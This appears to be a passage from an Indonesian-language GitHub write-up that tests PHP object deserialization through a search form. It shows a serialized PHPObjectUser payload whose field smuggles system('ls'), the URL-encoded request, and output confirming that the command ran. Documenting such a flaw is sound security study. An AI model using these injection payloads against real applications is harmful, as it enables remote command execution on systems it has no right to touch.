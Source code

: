 
  #### Example Object Deserialization <br>
  - #### Input <b>Object Serialize</b> 
    Pengetesan dengan melakukan input pada form search dengan value string dengan <b>Object Serialize</b> 

        O:13:"PHPObjectUser":2:{s:8:"username";s:13:"administrator";s:8:"password";s:13:"system('ls');";}
        
      ![image](https://user-images.githubusercontent.com/77251566/201449601-0d6dabde-2b22-4a99-8b3c-c7355a008122.png)
      ##
      Perubahan yang dihasilkan:
      - Menghasilkan perubahan url karena memiliki param, sebagai berikut:
        
            ?search=O%3A13%3A"PHPObjectUser"%3A2%3A{s%3A8%3A"username"%3Bs%3A13%3A"administrator"%3Bs%3A8%3A"password"%3Bs%3A13%3A"system('ls')%3B"%3B}
      - Memunculkan value dari username dan melakukan eksekusi perintah "ls" yang menghasilkan index.php 
      - Memunculkan data object hasil dari <b>unserialize</b> 

            PHPObjectUser Object ( [username] => administrator [password] => system('ls'); ) 




















